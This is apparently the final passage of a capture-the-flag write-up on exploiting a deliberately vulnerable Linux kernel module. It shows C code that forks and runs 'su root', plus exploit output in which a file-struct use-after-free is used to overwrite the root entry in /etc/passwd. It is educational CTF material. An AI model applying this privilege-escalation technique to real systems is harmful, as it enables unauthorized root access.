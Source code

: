 By the time a process ends, it decrements the `f_count` of all the file descriptors in its file descriptor table. As there are two file descriptors pointing to the same file struct, it could be creating a double free which ends in kernel panic. However, after fixing this, it keeps breaking for some other reason.

After some time, we can find a good solution. It is not the cleanest way of solving the problem, but it definitely works. We can fork at the beginning of the exploit, wait until the corruption process ends, and finally run the `su root` command from the clean process so we don't have to mess with bad kernel memory:

```c
	puts("[+] Fork & wait for success");
	pid = fork();
	if(pid == -1) {
		err(0, "[-] Failed to fork for a new process");
	}
	else if(pid == 0) {
		
		// Waiting for corruption completion.
		sleep(3);
	
	 	// Changing user to root.
		char *argvx[3] = { "/bin/su", "root", NULL };
		execve("/bin/su", &argvx, NULL);
		
		// Should never be reached.
		return 1;
	}
	...

		// Entering eternal loop.	
	puts("[+] Corruption process has been completed. Waiting for a root shell...");
	while(1) {
		sleep(10);
	}
```

### Have fun :)
Time to have fun! Now we can elevate our privileges to root and do whatever we want:
```
/home/user $ id
uid=1000(user) gid=1000(user) groups=1000(user)
/home/user $ ./exploit
[+] Fork & wait for success
[+] Opening LKM
[+] Opening tmp file
[+] Allocating some bytes into tmp file to prevent bus error
[+] Mapping tmp file into memory
[+] Limiting max amount of file descriptors
[+] RLIMIT_NOFILE set to:
[+]     rlim_cur = 0
[+]     rlim_max = 4096
[+] Forcing file struct release. Expecting EBADF:
exploit: [!] IOCTL_CTF_INSTALL_FILE failed: Bad file descriptor
exploit: [!] IOCTL_CTF_INSTALL_FILE failed: Bad file descriptor
[+] Extending max amount of file descriptors
[+] RLIMIT_NOFILE set to:
[+]     rlim_cur = 4096
[+]     rlim_max = 4096
[+] Spraying file structs pointing to /etc/passwd
[+] Checking for successful UAF. Content should be from /etc/passwd:
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:user:/home/user:/bin/sh
[+] Overwriting /etc/passwd root entry. Content should have been modified:
root::0:0:root:/root:/bin/ash
```